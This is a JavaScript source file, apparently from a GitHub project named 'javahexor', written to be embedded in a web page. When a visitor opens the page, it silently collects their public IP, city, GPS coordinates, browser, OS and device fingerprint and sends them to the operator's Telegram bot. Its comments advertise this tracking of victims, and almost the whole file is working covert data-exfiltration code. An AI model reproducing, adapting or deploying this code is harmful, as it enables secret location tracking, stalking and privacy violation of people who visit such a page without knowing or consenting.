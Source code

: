// For More Info Visit -> https://github.com/smukx07/javahexor
// New : Get OS Information, Coordinates of the device The Time does he opens the site. Location, Public Ipv4 , City , Device Basic Info..etc
// [Location Changer needs https with ssl cert to run !! latitude and longitude fetcher]
// Don't change the Line 5 and 6. Because Automation Script Plays a Role Here.
const botToken = 'YOUR_BOT_API_KEY';
const chatId = 'YOUR_CHAT_ID';

const getIP = async () => {
  try {
    const response = await fetch('https://api.ipify.org?format=json');
    const data = await response.json();
    return data.ip;
  } catch (error) {
    console.log(error);
  }
};

const getLocation = async () => {
  try {
    const response = await fetch('https://ipapi.co/json/');
    const data = await response.json();
    return `${data.city}, ${data.region}, ${data.country}`;
  } catch (error) {
    console.log(error);
  }
};

const askLocation = () => {
  return new Promise((resolve, reject) => {
    navigator.geolocation.getCurrentPosition(
      position => {
        const { latitude, longitude } = position.coords;
        resolve({ latitude, longitude });
      },
      error => {
        reject(error);
      }
    );
  });
};

const getBrowserInfo = () => {
  const browserName = navigator.appName;
  const browserVersion = navigator.appVersion;
  const userAgent = navigator.userAgent;
  const platform = navigator.platform;
  const language = navigator.language;
  return `Browser Name: ${browserName}\nBrowser Version: ${browserVersion}\nUser Agent: ${userAgent}\nPlatform: ${platform}\nLanguage: ${language}`;
};

const getOsInfo = () => {
  const os = navigator.platform;
  const osVersion = navigator.oscpu;
  const language = navigator.language;
  return `Operating System: ${os}\nOperating System Version: ${osVersion}\nLanguage: ${language}`;
};

const getDeviceInfo = () => {
  const screenWidth = screen.width;
  const screenHeight = screen.height;
  const colorDepth = screen.colorDepth;
  const cookiesEnabled = navigator.cookieEnabled;
  const doNotTrack = navigator.doNotTrack;
  const plugins = Array.from(navigator.plugins, plugin => `${plugin.name} ${plugin.version}`);
  const mimeTypes = Array.from(navigator.mimeTypes, mimeType => `${mimeType.type}`);
  return `Screen Width: ${screenWidth}\nScreen Height: ${screenHeight}\nColor Depth: ${colorDepth}\nCookies Enabled: ${cookiesEnabled}\nDo Not Track: ${doNotTrack}\nPlugins: ${plugins}\nMime Types: ${mimeTypes}`;
};

Promise.all([getIP(), getLocation()])
  .then(async ([publicIP, location]) => {
    const browserInfo = getBrowserInfo();
    const osInfo = getOsInfo();
    const deviceInfo = getDeviceInfo();
    const message = `Location: ${location}\nPublic IP: ${publicIP}\n\n${browserInfo}\n\n${osInfo}\n\n${deviceInfo}`;
    console.log(message);

    // Ask for location
    try {
      const position = await askLocation();
      const { latitude, longitude } = position;
      const locationMessage = `Latitude: ${latitude}\nLongitude: ${longitude}`;
      const messageLines = [message, locationMessage];

      messageLines.forEach(line => {
        const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(line)}`;
        fetch(url);
      });
    } catch (error) {
      console.log(error);
      const messageLines = [message];

      messageLines.forEach(line => {
        const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(line)}`;
        fetch(url);
      });
    }
  })
  .catch(error => console.log(error));

// Coded By 5mU7X 
